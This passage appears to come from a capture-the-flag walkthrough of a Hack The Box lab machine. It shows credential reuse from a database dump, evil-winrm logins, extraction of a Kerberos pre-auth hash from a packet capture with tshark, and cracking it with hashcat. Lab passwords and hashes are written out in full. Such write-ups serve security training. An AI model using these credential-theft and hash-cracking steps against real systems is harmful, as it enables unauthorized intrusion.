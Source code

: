 
### 4. Initial Access via Database Compromise

Based on the walkthrough, the database credentials are:
- **Username:** `certificate_webapp_user`
- **Password:** `cert!f!c@teDBPWD`

From the database dump, we find the user hash for `sara.b` which cracks to: `Blink182`

#### Connect as Sara.B
```bash
evil-winrm -i 10.10.11.71 -u sara.b -p 'Blink182'
```

---

### 5. Lateral Movement via Kerberos Attack

#### Download Packet Capture File
```powershell
# In Evil-WinRM session
cd Documents\WS-01
download WS-01_PktMon.pcap
```

#### Extract Kerberos Hash from PCAP
```bash
# Analyze PCAP with tshark
tshark -r WS-01_PktMon.pcap -Y "kerberos.msg_type == 10" -T fields -e kerberos.cipher -e kerberos.realm -e kerberos.cname_string

# Extract username and cipher data
tshark -r WS-01_PktMon.pcap -Y "kerberos.msg_type == 10" -V | grep -A 20 -B 5 "cname"
```

#### Create Kerberos Hash for Hashcat
```bash
echo '$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0' > kerberos.hash
```

#### Crack Kerberos Hash
```bash
hashcat -m 19900 kerberos.hash /usr/share/wordlists/rockyou.txt --force
```

**Result:** `Lion.SK:!QAZ2wsx`

#### Connect as Lion.SK and Retrieve User Flag
```bash
evil-winrm -i 10.10.11.71 -u lion.sk -p '!QAZ2wsx'
```

```powershell
# Navigate to user desktop
cd Desktop
cat user.txt
```
